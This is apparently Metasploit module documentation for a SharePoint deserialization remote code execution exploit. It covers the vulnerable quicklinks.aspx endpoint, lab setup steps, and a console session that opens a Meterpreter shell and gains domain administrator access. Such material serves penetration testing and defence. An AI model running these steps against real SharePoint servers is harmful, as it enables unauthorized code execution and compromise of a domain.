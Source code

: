 ## Vulnerable Application
A remotely exploitable vulnerability exists within SharePoint that can be leveraged by a remote authenticated attacker
to execute code within the context of the SharePoint application service. The privileges in this execution context are
determined by the account that is specified when SharePoint is installed and configured. The vulnerability is related to
a failure to validate the source of XML input data, leading to an unsafe deserialization operation that can be triggered
from a page that initializes either the `ContactLinksSuggestionsMicroView` type or a derivative of it. In a default
configuration, a Domain User account is sufficient to access SharePoint and exploit this vulnerability.

This module leverages the `/_layouts/15/quicklinks.aspx?Mode=Suggestion` endpoint that was confirmed to be vulnerable by
[Soroush Dalili](https://twitter.com/irsdl). Alternative endpoints that instantiate the
`ContactLinksSuggestionsMicroView` type may be used as well but are not supported by the module.

### Configuring SharePoint
Once SharePoint is installed, it needs to be configured with a site in order to be exploitable. The Central
Administration web interface **is not vulnerable**. To configure SharePoint to be a stand alone server:

1. Install Active Directory and promote the server to be a Domain Controller
    1. Install the "Active Directory Domain Services" role
    1. Promote the server to a Domain Controller in a new forest
    1. Create a Domain User account for testing
1. Install SQL Server Express
1. Run the "SharePoint Products Configuration Wizard"
    1. Use the SQL Server Express instances as the database server
1. In the SharePoint "Central Administration" console web interface:
    1. Verify that there is a web application under the "Manage web applications" page
    1. Create a new "Site Collection" under the "Create site collections" page
        1. Select the previously created web application
        1. Set a Title
        1. Use the default "Team Site" template
        1. Set the "Primary Site Collection Administrator" to the Domain Administrator account

## Verification Steps

1. Install the application and ensure a page is accessible
1. Start msfconsole
1. Do: `use exploit/windows/http/sharepoint_data_deserialization`
1. Set the `RHOSTS`, `USERNAME`, `PASSWORD` and `PAYLOAD` options
1. Set any additional options as required by the previously selected payload
1. Optionally set the `VHOST`, `SSL` and `DOMAIN` options as appropriate
1. Run the exploit

## Options

## Scenarios

### SharePoint 2016 on Server 2016

```
msf > use exploit/windows/http/sharepoint_data_deserialization 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf exploit(windows/http/sharepoint_data_deserialization) > set RHOSTS 192.168.63.168
RHOSTS => 192.168.63.168
msf exploit(windows/http/sharepoint_data_deserialization) > set RPORT 80
RPORT => 80
msf exploit(windows/http/sharepoint_data_deserialization) > set SSL false
[!] Changing the SSL option's value may require changing RPORT!
SSL => false
msf exploit(windows/http/sharepoint_data_deserialization) > set VHOST ec2amaz-v2pri0v
VHOST => ec2amaz-v2pri0v
msf exploit(windows/http/sharepoint_data_deserialization) > set USERNAME smcintyre
USERNAME => smcintyre
msf exploit(windows/http/sharepoint_data_deserialization) > set PASSWORD Password1
PASSWORD => Password1
msf exploit(windows/http/sharepoint_data_deserialization) > set DOMAIN SHRPNT
DOMAIN => SHRPNT
msf exploit(windows/http/sharepoint_data_deserialization) > set PAYLOAD windows/meterpreter/bind_tcp
PAYLOAD => windows/meterpreter/bind_tcp
msf exploit(windows/http/sharepoint_data_deserialization) > check
[*] 192.168.63.168:80 - The service is running, but could not be validated. Received the quicklinks HTML form.
msf exploit(windows/http/sharepoint_data_deserialization) > exploit

[*] Executing automatic check (disable AutoCheck to override)
[!] The service is running, but could not be validated. Received the quicklinks HTML form.
[*] Command Stager progress -   7.42% done (7499/101079 bytes)
[*] Command Stager progress -  14.84% done (14998/101079 bytes)
[*] Command Stager progress -  22.26% done (22497/101079 bytes)
[*] Command Stager progress -  29.68% done (29996/101079 bytes)
[*] Command Stager progress -  37.09% done (37495/101079 bytes)
[*] Command Stager progress -  44.51% done (44994/101079 bytes)
[*] Command Stager progress -  51.93% done (52493/101079 bytes)
[*] Command Stager progress -  59.35% done (59992/101079 bytes)
[*] Command Stager progress -  66.77% done (67491/101079 bytes)
[*] Command Stager progress -  74.19% done (74990/101079 bytes)
[*] Command Stager progress -  81.61% done (82489/101079 bytes)
[*] Command Stager progress -  89.03% done (89988/101079 bytes)
[*] Command Stager progress -  96.45% done (97487/101079 bytes)
[*] Command Stager progress - 100.00% done (101079/101079 bytes)
[*] Started bind TCP handler against 192.168.63.168:4444
[*] Sending stage (176195 bytes) to 192.168.63.168
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 192.168.63.168:4444) at 2020-07-29 11:45:13 -0400

meterpreter > sysinfo
Computer        : EC2AMAZ-V2PRI0V
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : SHRPNT
Logged On Users : 19
Meterpreter     : x86/windows
meterpreter > getuid
Server username: SHRPNT\Administrator
meterpreter >
```
